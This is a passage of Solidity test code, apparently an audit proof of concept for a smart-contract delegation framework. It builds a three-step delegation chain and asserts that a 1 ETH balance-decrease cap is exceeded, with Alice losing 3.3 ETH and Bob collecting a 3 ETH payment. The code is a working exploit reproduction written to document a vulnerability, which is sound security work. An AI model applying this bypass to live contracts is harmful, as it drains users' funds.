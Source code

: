 ```solidity
        // 2: Create Bob -> Dave delegation with payment enforcement
        (Delegation memory bobToDave, bytes32 bobToDaveHash) = _createBobToDaveDelegationWithPayment(aliceToBobHash);

        // 3: Create Dave's delegation
        Delegation memory daveDelegation = _createDaveDelegation(bobToDaveHash);

        // 4: Create execution - transfer 0.3 ETH from Alice's balance
        Execution memory execution = Execution({ target: address(0xBEEF), value: 0.3 ether, callData: "" });

        // 5: Set up delegation chain
        Delegation[] memory delegationChain = new Delegation[](3);
        delegationChain[0] = daveDelegation;
        delegationChain[1] = bobToDave;
        delegationChain[2] = aliceToBob;

        uint256 bobInitialBalance = bobPaymentRecipient.balance;

        // 6: Execute the delegation chain
        invokeDelegation_UserOp(users.dave, delegationChain, execution);

        uint256 finalBalance = sharedRecipient.balance;
        uint256 bobFinalBalance = bobPaymentRecipient.balance;

        // 7: Verify the vulnerability
        uint256 totalDecrease = initialBalance - finalBalance;
        uint256 bobPayment = bobFinalBalance - bobInitialBalance;

        //  Alice loses 3.3 ETH total (0.3 ETH from execution + 3 ETH from Native Token Payment enforcer),
        // Bob gets 3 ETH
        // EXPECTED BEHAVIOR: transaction should revert before reaching here
        assertEq(totalDecrease, 3.3 ether, "Total decrease should be 3.3 ETH");
        assertEq(bobPayment, 3 ether, "Bob should receive 3 ETH payment");
    }

    function _createAliceToBobDelegation() internal returns (Delegation memory, bytes32) {
        bytes memory terms = abi.encodePacked(
            true, // enforceDecrease
            sharedRecipient,
            uint256(1 ether) // max 1 ETH decrease
        );

        Caveat[] memory caveats = new Caveat[](1);
        caveats[0] = Caveat({ enforcer: address(balanceEnforcer), terms: terms, args: "" });

        Delegation memory delegation = Delegation({
            delegate: address(users.bob.deleGator),
            delegator: address(users.alice.deleGator),
            authority: ROOT_AUTHORITY,
            caveats: caveats,
            salt: 0,
            signature: ""
        });

        delegation = signDelegation(users.alice, delegation);
        bytes32 delegationHash = EncoderLib._getDelegationHash(delegation);

        return (delegation, delegationHash);
    }

```